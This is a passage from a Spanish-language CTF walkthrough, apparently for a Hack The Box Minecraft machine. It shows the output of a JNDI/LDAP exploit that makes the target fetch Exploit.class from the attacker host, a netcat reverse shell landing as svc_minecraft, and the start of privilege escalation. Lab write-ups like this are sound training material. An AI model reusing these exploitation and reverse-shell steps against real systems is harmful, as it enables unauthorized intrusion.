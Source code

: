 ![minecraft](/crafty/minecraft.png)


```bash
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.11:8000/Exploit.class
10.129.216.16 - - [11/Feb/2024 22:29:30] "GET /Exploit.class HTTP/1.1" 200 -
```
{: .nolineno}


Y si todo se realizó de forma adecuada, se ganará una **shell** dentro de la máquina con la que se puede intentar **escalar privilegios**.

```bash
nc -lvp 9000
listening on [any] 9000 ...
connect to [10.10.14.11] from 10.129.216.16 [10.129.216.16] 49681
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\users\svc_minecraft\server>whoami
whoami
crafty\svc_minecraft
```
{: .nolineno}



## Escalada de Privilegios

Al revisar qué archivos hay dentro del servidor al ganar acceso al mismo, se pueden ver algunos interesantes, como lo son la **flag de usuario**. Además de esos, hay **logs**, **versiones**, **plugins** e información de usuarios.

```bash
c:\users\svc_minecraft\server>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C419-63F6

 Directory of c:\users\svc_minecraft\server

10/26/2023  05:37 PM    <DIR>          .
10/26/2023  05:37 PM    <DIR>          ..
11/14/2023  10:00 PM                 2 banned-ips.json
11/14/2023  10:00 PM                 2 banned-players.json
10/24/2023  12:48 PM               183 eula.txt
02/11/2024  09:24 AM    <DIR>          logs
11/14/2023  11:22 PM                 2 ops.json
10/27/2023  01:48 PM    <DIR>          plugins
10/24/2023  12:43 PM        37,962,360 server.jar
11/14/2023  10:00 PM             1,130 server.properties
02/11/2024  07:29 PM               106 usercache.json
10/24/2023  12:51 PM                 2 whitelist.json
02/11/2024  07:25 PM    <DIR>          world
               8 File(s)     37,963,787 bytes
               5 Dir(s)   3,253,649,408 bytes free
```
{: .nolineno}
